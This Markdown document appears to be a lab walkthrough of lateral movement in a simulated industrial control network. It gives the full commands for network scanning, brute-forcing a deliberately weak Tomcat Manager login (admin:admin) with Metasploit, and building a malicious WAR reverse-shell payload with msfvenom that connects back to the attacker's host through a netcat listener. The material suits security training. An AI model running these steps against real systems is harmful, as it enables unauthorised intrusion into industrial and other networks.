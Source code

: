 # Lateral movement

The attacker exploits a vulnerability in a remote service, allowing the attack to spread to the ICS network (this could be SCADA bridging IT and OT environments). \[T0866]

T0866 -> <https://attack.mitre.org/techniques/T0866/> 

After getting inside the web application machine.

**Lateral Movement via Apache Manager Weak Credentials (CVE-2009-3548)**

Once inside the vulnerable web server machine, the attacker's goal is to move laterally to another machine within the same network. In this case, the attacker is targeting the Apache Tomcat Manager in **ScadaBR**, which was purposely set to be vulnerable due to weak credentials (CVE-2009-3548).


### **Step-by-Step:**

1. **Obtaining a Shell Access:**

- After gaining initial access using the vulnerability in the web server, the attacker establishes a shell session using **Meterpreter** (last phase).

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfDN4B2F3RJ5vrYTmrgI4sO86pl6MTybgV100h2dIL6p-MMQ_BLAEcTE1751LON5qQI6oSAezsgwMdGYV2PUwTAItqMltCzdaHJ7OIPvbuA0OT5WA6LWvxqebFExfrIizhWtOlLi--yj7ud4fWW4fR8cstk?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 7:** Log4Shell exploit execution with successful remote execution.

2\. **Network Enumeration:**

- The attacker runs network commands to identify the IP configuration and other network devices.

- Result shows that the machine has two interfaces (`eth0` and `eth1`), with `eth1` assigned the IP `192.168.51.2/24 and a network that can be scanned`.

```
# checking interfaces
ip a # scanning the discovered network`
nmap 192.168.51.2/24

```
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXd63FP86iRmWYrAPos379ndo4qOAnoJ-chUJyjM66BotSj0tOPdrol1WJidHA6_leya58HSuX8PcmqVqvtBnslAdM9W4pwEBJ_xXw7h9WK_T3EpNfoLcW7P-ojVX1d7oXmKcqWqUxVM1U79Tgq-mFV98L-B?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 8:** Network results (discovery of 192.168.51.5 machine).

3.  **Exploiting Tomcat Manager (CVE-2009-3548):**

****![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXd8SyfUeVMDbSflFyh2-XqQ11oejRJAtcClA3Lq1PorrhafwMhP77hKxtS3PpQzd2R4iTTaxxEIaQ6ZjOws-8hzM0_bdVOFVmJNmniIgj87-YdD6YhwP5bcAPbbde6J84DMd3ZCIRqiySqcdXUve6QaUIJ1?key=ZVE4yllmhIbKOidz4k1V_g)****

**Img 9:** Tomcat server at 192.168.51.5:9090.

- The attacker targets the **Tomcat Manager** running on `192.168.51.5:9090/manager/html`.

- Using **Metasploit's** `scanner/http/tomcat_mgr_login` **module**, the attacker brute-forces the default credentials (`admin:admin`).

```
# step 1
sudo msfconsole

# step 2
use scanner/http/tomcat_mgr_login

# step 3
setg RHOSTS \<target-ip>  `# 10.208.89.15 or 192.168.51.5 if in M1
setg RPORT \<target-port> # 9090
setg TARGETURI \<target url> # /manager/html

#step 4
exploit

```
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe2qMuFXGGOEA5RLTLO3hvakHwZkDHRrW2wLG-RKIth0wwptoNdUCOYtcl5R6WzPphk4UHR8uXagBMEnPQReQx0GF_5MkTtFJBley6-CWoAXhHMvm1fEzhzuOIIrB4uFDV9mLOn8AmnwdRHAboCsRSo-bje?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 10:** Tomcat server brute force attack at 192.168.51.5:9090/manager.html and discovery of credentials (admin:admin).

4\. **Crafting Malicious WAR File for Remote Code Execution (RCE):**

Once access is gained to the **Tomcat Manager**, the attacker uploads a malicious WAR file.

- The attacker uses **msfvenom** to create a malicious **WAR** file:

- The payload is configured to connect back to the attacker's listener on port 443 and on the M1 machine.
```
# step 1

sudo msfvenom -p java/shell_reverse_tcp LHOST=192.168.51.2 LPORT=443 -f war -o shell.war

# step 2 

# upload the genereted shell.war file to the tomcat manager
```

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeMselmAuZKxQLJQLmFgDrG5wqdsNGCTbtwr8PP92Z2dyZX73aEJ2vO_OZKHF_SPdOXNqjboCk8v0JH7si-tl9YgQ86h_Zcm_rNrc_N48-4lBq7X0dkWzrBiW9dBZR-GjKsjzCbGTJPRqFgJnbQuV0xBJ0y?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 11:** Malicious WAR file (shell.war) uploaded in Tomcat server by the manager URL.

5\. **Triggering the Exploit and Establishing Reverse Shell**

- The attacker sets up a listener on the attacker's machine at `192.168.51.2`.

- The attacker triggers the RCE by accessing http\://10.208.89.15:9090/shell  or http\://192.168.51.5:9090/shell

```
# step 1

nc -lvnp 443

# step 2

# access_ http\://10.208.89.15:9090/shell |

```

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXf6eQQLicqhkkjPsZ1Je1NiC8hpKTLpNCdc1GRLxNMMXYNad_68B4WBEoKos_53Zbgrb_I60DrLctTzfd6L1ERB7IQeD4McI0JpC4e_m6QO79ycWOO4pyYjyLwMdeH12I92Rp6rhiDIw_ClVMS9vwgCjlA?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 12:** RCE execution and successful invasion of M2.

